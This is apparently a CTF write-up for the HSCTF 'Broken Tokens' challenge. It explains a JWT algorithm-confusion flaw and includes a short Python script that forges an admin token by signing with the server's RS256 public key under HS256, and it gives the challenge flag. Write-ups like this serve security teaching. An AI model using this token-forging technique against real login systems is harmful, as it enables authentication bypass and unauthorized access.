




# Broken Tokens

## Problem

```
I made a login page, is it really secure?

https://broken-tokens.web.hsctf.com/

Note: If you receive an "Internal Server Error" (HTTP Status Code 500), that means that your cookie is incorrect.

Author: hmmm
```

## Solution
**Note:** *JWT generation script can be found under `script.py` in `scripts/brokentokens` folder.*

Highly similar to TJCTF task [Moar Horse 4](https://ctftime.org/writeup/20786).

Looking at the given `main.py`:


The login form stores a JSON web token (JWT) on login. It checks if a specific value in this token, `auth`, equates to `"admin"` when decrypted.
We first login using random credentials. 


Decoding the JWT shows that `auth` is set to guest, and the JWT algorithm is RS256. RS256 is an asymmetric encryption algorithm, meaning encryption/decryption uses a pair of private and public keys.
The site however does not check the algorithm used. We can exploit this using HS256, a symmetric encryption algorithm
where encryption/decryption uses the same key, instead. 

Using the publickey.pem provided on the site and the script below:
```
import json
import jwt
jwt.algorithms.HMACAlgorithm.prepare_key = lambda self, key : jwt.utils.force_bytes(key)


with open(r"C:\Users\brand\Desktop\publickey.pem", "rb") as file:
    PUBLIC_KEY = file.read()
print("public key : ")
print(PUBLIC_KEY)

data = {
        "auth": "admin"
    }

token = jwt.encode(data, PUBLIC_KEY, "HS256")
print("token : ")
print(token)
```

We can engineer a new encrypted `auth` value for the JWT token using HS256. Upon login, we update the value of `auth` to
the new value in the POST request and resend it. The site will allow us to log in as admin, showing the flag.





Flag: `flag{1n53cur3_tok3n5_5474212}`